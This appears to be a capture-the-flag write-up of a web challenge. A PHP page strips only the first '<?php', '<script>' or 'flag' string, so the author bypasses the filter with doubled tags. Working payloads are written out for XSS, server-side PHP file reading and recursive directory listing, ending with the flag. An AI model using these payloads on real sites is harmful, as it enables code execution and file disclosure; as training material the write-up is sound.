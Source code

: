 # web/ProgrammersHateProgramming

>web/ProgrammersHateProgramming

>202 Points\
>just a little different than normally. Link: http://147.182.172.217:42002/index.php

***

Right away, you can see that this website simply repeats what youve typed back to it, looks like xss to me

Taking a look at the provided source code, you can see that it removes any instance of "<?php", "?>", "<script>", "</script>" or "flag"

But whats that, it only removes the first instance! I immediately test
```php
<?php<?php echo '<b>Hello World</b>'; ?>?>
```
and sure enough it repeats in bold, onyl removing one instance of the php stuff

Similarily, I try
```javascript
<script><script>document.write(5 + 6);</script></script>
```
and it shows 11 as expected

Now to find the flag, sadly 
```php
<?php<?php
$myfile = fopen("flagflag.php", "r") or die("Unable to open file!");
echo fread($myfile,filesize("flag.php"));
fclose($myfile);
?>?>
```
Told me it doesnt exist in "/var/www/html/q4XjMFfKruNEK8G.php". So I tried
```php
<?php<?php
$myfile = fopen("/var/www/html/flagflag.php", "r") or die("Unable to open file!");
echo fread($myfile,filesize("/var/www/html/flag.php"));
fclose($myfile);
?>?>
```
and got a similar error, after playing around a bit, it was time to bring out the big guns

I found this stack overflow, https://stackoverflow.com/questions/24783862/list-all-the-files-and-folders-in-a-directory-with-php-recursive-function
which gave me 
```php
<?php<?php
function getDirContents($dir, &$results = array()) {
    $files = scandir($dir);

    foreach ($files as $key => $value) {
        $path = realpath($dir . DIRECTORY_SEPARATOR . $value);
        if (!is_dir($path)) {
            $results[] = $path;
        } else if ($value != "." && $value != "..") {
            getDirContents($path, $results);
            $results[] = $path;
        }
    }

    return $results;
}

var_dump(getDirContents('/var/www/html'));?>?>
```
and also gave me a HUGE list of php files similar to the output of this one. Unable to find a smart way to sift through them (I could see most recent were mine), I started from the oldest and worked forwards

I found some weird output, and then came across "0HSDLbraxTMJQXm.php" with the desired flag, 
```
flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection}
```
